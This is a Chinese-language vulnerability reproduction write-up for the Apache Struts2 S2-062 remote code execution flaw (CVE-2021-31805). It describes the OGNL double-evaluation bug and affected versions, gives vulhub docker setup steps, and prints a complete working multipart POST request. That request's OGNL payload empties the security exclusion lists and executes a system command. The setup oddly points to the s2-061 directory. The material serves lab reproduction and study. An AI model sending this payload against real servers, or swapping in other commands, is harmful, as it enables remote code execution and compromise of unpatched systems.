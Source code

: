 # 

# Apache Struts2 S2-062 远程代码执行漏洞 CVE-2021-31805

## 漏洞描述

该漏洞由于对CVE-2020-17530的修复不完整造成的，CVE-2020-17530漏洞是由于Struts2 会对某些标签属性(比如id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 %{x} 且 其中x 的值用户可控时，用户再传入一个 %{payload} 即可造成OGNL表达式执行。在CVE-2021-31805漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的OGNL表达式执行，导致远程代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.5.29
```

## 环境搭建

```php
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-061
docker-compose up -d
```

## 漏洞复现

主页面

![img](./images/202205131027608.png)

发送请求包

```php
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](./images/202205131027759.png)
